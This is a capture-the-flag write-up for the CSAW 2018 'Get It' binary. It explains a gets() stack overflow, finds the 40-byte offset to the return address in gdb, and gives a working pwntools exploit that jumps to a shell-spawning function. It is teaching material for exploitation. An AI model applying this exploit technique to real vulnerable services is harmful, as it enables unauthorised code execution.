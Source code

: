 # Csaw Quals 2018 Get It

Let's take a look at the binary:

```
$    file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
$    pwn checksec get_it
[*] '/Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./get_it
Do you gets it??
15935728
```

So we can see that we are given a `64` bit binary, with a Non-Executable stack (that mitigation will be covered later). When we run it, we see that it prompts us for input. When we take a look at the main function in Ghidra, we see this:

```
undefined8 main(void)

{
  char input [32];
 
  puts("Do you gets it??");
  gets(input);
  return 0;
}
```

So we can see that it makes a call to the `gets` function with the char buffer `input` as an argument. This is a bug. The thing about the `gets` function, is that there is no size restriction on the amount of data it will scan in. It will just scan in data until it gets either a newline character or EOF (or something causes it to crash). Because if this we can write more data to `input` than it can hold (which it can hold `32` bytes worth of data) and we will overflow it. The data that we overflow will start overwriting subsequent things in memory. Looking at this function we don't see any other variables that we can overwrite. However we can definitely overwrite the saved return address.

When a function is called, two values that are saved are the base pointer (points to the base of the stack) and instruction pointer (pointing to the instruction following the call). This way when the function is done executing and returns, code execution can pick up where it left off and the code knows where the stack is. These values make up the saved base pointer and saved return address, and in x64 the saved base pointer is stored at `rbp+0x0` and the saved instruction pointer is stored at `rbp+0x8`.

So when the `ret` instruction, the saved instruction pointer (stored at `rbp+0x8`) is executed. This address is on the stack, and we can reach it with the `gets` function call. So we will just overwrite it with a value we want, and we will decide what code the program executes. The offset between the start of our input and the return address is `40` bytes. The first `32` bytes come from the `input` char buffer we have to fill up. After that we can see there are no variables between `input` and the saved base pointer (if there was a stack canary that would be a different story, but I'll save that for later). After that we have `8` bytes for the saved base pointer, then we reach the saved instruction pointer. We can also see this in memory with gdb:

```
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:    push   rbp
   0x00000000004005c8 <+1>:    mov    rbp,rsp
   0x00000000004005cb <+4>:    sub    rsp,0x30
   0x00000000004005cf <+8>:    mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave  
   0x00000000004005f7 <+48>:    ret    
End of assembler dump.
gef➤  b *0x4005f1
Breakpoint 1 at 0x4005f1
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it
Do you gets it??
15935728
```

We set a breakpoint for right after the `gets` call:

```
Breakpoint 1, 0x00000000004005f1 in main ()
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
gef➤  x/g $rbp+0x8
0x7fffffffde98:    0x00007ffff7a05b97
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602670 - 0x602678  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde70 - 0x7fffffffde78  →   "15935728"
```

So we can see that the return address is stored at `0x7fffffffde98`. Our input begins at `0x7fffffffde70`. This gives us a `0x7fffffffde98 - 0x7fffffffde70 = 0x28` byte offset (`0x28 = 40`). So we just have to write `40` bytes worth of input and we can write over the return address. That address will be executed when the `ret` instruction is executed, giving us code execution. The question is now what do we want to execute? Looking through the list of functions in Ghidra, we see that there is a `give_shell` function:

```
void give_shell(void)

{
  system("/bin/bash");
  return;
}
```

This function looks like it just gives us a shell by calling `system("/bin/bash")`. In the assembly viewer we can see that it starts at `0x4005b6`. So we can just call the `give_shell` function by writing over the return address with `0x4005b6` and that should give us a shell. Putting it all together, we get the following exploit:

```
from pwn import *

target = process("./get_it")
gdb.attach(target, gdbscript = 'b *0x4005f1')

payload = b""
payload += b"0"*40 # Padding to the return address
payload += p64(0x4005b6) # Address of give_shell in least endian, will be new saved return address

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use the new shell
target.interactive()
```

When we run it, we see the below text. This might crash on the `system("/bin/bash")` if you are running it on a more modern version of Ubuntu. If it does, ignore it and move on, consider this challenge solved (as long as you are successfully calling the `give_shell` function). This is because the challenge was made to run in a different environment/libc version, and exploitation techniques that work one way in one environment work differently in others:
```
$    python3 exploit.py
[+] Starting local process './get_it': pid 2969
[*] running in new terminal: /usr/bin/gdb -q  "./get_it" 2969 -x "/tmp/pwndObRhj.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Do you gets it??
$ w
 23:38:26 up 1 min,  1 user,  load average: 1.77, 0.67, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               23:37    1:20   2.71s  0.14s /sbin/upstart --user
$ ls
exploit.py  get_it
```

Just like that we got a shell!
